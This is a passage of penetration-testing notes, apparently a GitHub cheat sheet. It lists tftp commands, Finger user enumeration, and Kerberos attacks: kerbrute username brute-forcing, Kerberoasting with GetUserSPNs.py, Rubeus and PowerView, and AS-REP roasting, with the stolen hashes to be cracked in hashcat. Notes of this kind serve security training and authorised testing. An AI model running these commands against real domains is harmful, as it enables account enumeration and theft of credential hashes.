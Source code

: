 | **Commands** | **Description**                                              |
| ------------ | ------------------------------------------------------------ |
| `connect`    | Sets the remote host, and optionally the port, for file transfers. |
| `get`        | Transfers a file or set of files from the remote host to the local host. |
| `put`        | Transfers a file or set of files from the local host onto the remote host. |
| `quit`       | Exits tftp.                                                  |
| `status`     | Shows the current status of tftp, including the current transfer  mode (ascii or binary), connection status, time-out value, and so on. |
| `verbose`    | Turns verbose mode, which displays additional information during file transfer, on or off. |

## 79 - Finger

**Finger** is a program you can use to find information about computer users. 

### Enumeration

```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```

Bruteforcing finger can reveal local users
## 88 Kerberos
### Enumeration
- Kerberos user brute-forcing
	 ```bash
	   kerbrute userenum -d [DOMAIN] [USERS.txt] --dc [DC_IP]
	   ```
	 - Generate users: `usergen() [FULL_NAMES.txt]` 
	- Wordlists: `statistically-likely-usernames/top-formats.txt`	   
### Exploit
- KBR Roasting (needs credentials)
  Checks the users that have an SPN and steal their hashes: so all of the enumerated users are service accounts, but if people are lazy, they could be also domain accounts.
	  - From Linux:
	    ```bash
	    GetUserSPNs.py -dc-ip [DC_IP] [DOMAIN/USER:PWD] -request
		```
	- From Windows:
		- Rubeus
		  ```powershell
		    Invoke-Rubeus -Command "kerberoast /tgtdeleg /creduser:[DOMAIN]\[USER] /credpassword:[PASS] /format:hashcat /nowrap"
			```
		- Powerview
		  ```powershell
		  Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat
			```
	- Crack with `hashcat`
- ASREP Roasting (needs usernames)
    - From Linux:
      ```bash
      GetNPUsers.py [DOMAIN]/ -usersfile [VALID_USERS.txt] -request -format hashcat
		```
	- From Windows
	  - Rubeus
		  ```powershell
		  Invoke-Rubeus -Command "asreproast /format:hashcat /nowrap"